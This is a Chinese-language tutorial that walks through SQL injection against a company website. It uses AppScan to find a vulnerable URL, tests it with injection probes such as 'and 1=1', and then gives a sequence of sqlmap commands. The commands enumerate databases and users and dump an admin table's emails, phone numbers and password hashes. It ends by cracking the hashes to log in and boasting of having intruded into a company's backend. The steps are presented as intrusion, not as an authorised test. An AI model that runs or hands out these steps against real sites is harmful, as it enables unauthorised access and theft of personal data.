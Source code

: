 # 原理

# 工具

# 应用

## 工具

1、AppScan渗透扫描工具

Appscan是Web应用程序渗透测试舞台上使用最广泛的工具之一。它是一个桌面应用程序，它有助于专业安全人员进行Web应用程序自动化脆弱性评估。

2、Sqlmap渗透测试工具

Sqlmap是一个自动化的SQL注入工具，其主要功能是扫描，发现并利用给定的URL的SQL注入漏洞。

## 步骤

​	首先使用Appscan工具，对www.xxx.com互联网公司的官网进行扫描，扫描结果如下：

 

​	在这56个安全性问题中，找到你感兴趣的链接，例如下面这条：

http://www.xxx.com/system/cms/show?id=1

为何要挑出这一条呢？因为它对于SQL注入比较典型，下面普及下SQL注入常用手法。首先用如下语句，确定该网站是否存在注入点：

http://192.168.16.128/news.php?id=1 原网站

http://192.168.16.128/news.php?id=1’ 出错或显示不正常

http://192.168.16.128/news.php?id=1 and 1=1 出错或显示不正常

http://192.168.16.128/news.php?id=1 and 1=2 出错或显示不正常

如果有出错，说明存在注入点。

在判断完http://www.xxx.com/system/cms/show?id=1该链接存在注入点后，接下来就启动我们的渗透测试工具Sqlmap，进行下一步的注入工作，详细过程如下：

\1) 再次确认目标注入点是否可用：

python sqlmap.py -u http://www.xxx.com/system/cms/show?id=1

参数：

-u：指定注入点url

结果：

 

注入结果展示：

a、参数id存在基于布尔的盲注，即可以根据返回页面判断条件真假的注入。

b、参数id存在基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行(即页面返回时间是否增加)来判断。

c、数据库类型为：MySql 5.0.12

 

\2) 暴库所有数据库：

一条命令即可曝出该sqlserver中所有数据库名称，命令如下：

python sqlmap.py -u http://www.xxx.com/system/cms/show?id=1  --dbs

参数：

--dbs：dbs前面有两条杠，列出所有数据库。

结果：

 

结果显示该sqlserver中共包含3个可用的数据库。

 

\3) 获取当前使用的数据库

python sqlmap.py -u http://www.xxx.com/system/cms/show?id=1 --current-db

参数：

--current-db：当前所使用的数据库。

结果：

 

\4) 获取当前数据库使用账户

python sqlmap.py -u http://www.xxx.com/system/cms/show?id=1 --current-user

 

\5) 列出sqlserver所有用户

python sqlmap.py -u http://www.xxx.com/system/cms/show?id=1 --users

 

 

\6) 获取当前用户数据库账户与密码

python sqlmap.py -u http://www.xxx.com/system/cms/show?id=1 –passwords

结果显示该用户可能无读取相关系统的权限。

 

\7) 列出数据库中的表

python sqlmap.py -u http://www.xxx.com/system/cms/show?id=1 -D xxx_store --tables 

参数：

-D：指定数据库名称

--tables：列出表

结果：

 

结果显示共列出了69张表。

 

\8) 列出表中字段

python sqlmap.py -u http://www.xxx.com/system/cms/show?id=1 -D xxx_store -T mall_admin --columns

参数：

-D：指定数据库名称

-T：指定要列出字段的表

--columns：指定列出字段

结果：

 

9)暴字段内容

python sqlmap.py -u http://www.xxx.com/system/cms/show?id=1 -D xxx_store -T mall_admin -C "ag_id,email,id,mobile,name,password,status" --dump

参数：

-C ：指定要暴的字段

--dump：将结果导出

如果字段内容太多，需要花费很多时间。可以指定导出特定范围的字段内容，命令如下：

python sqlmap.py -u http://www.xxx.com/system/cms/show?id=1 -D xxx_store -T mall_admin -C "ag_id,email,id,mobile,name,password,status" --start 1 --stop 10 --dump

参数：

--start：指定开始的行

--stop：指定结束的行

此条命令的含义为：导出数据库xxx_store中的表mall_admin中的关于字段(ag_id,email,id,mobile,name,password,status)中的第1到第10行的数据内容。

结果如下：

 

通过上图，我们可以看到admin表中的用户信息了。我们将password字段通过md5解密，可以得到hash的原文密码，通过用户名和密码，我们就可以登录该网站了。

至此，我们已成功入侵到一家公司的后台，并拿到了相关的数据。

 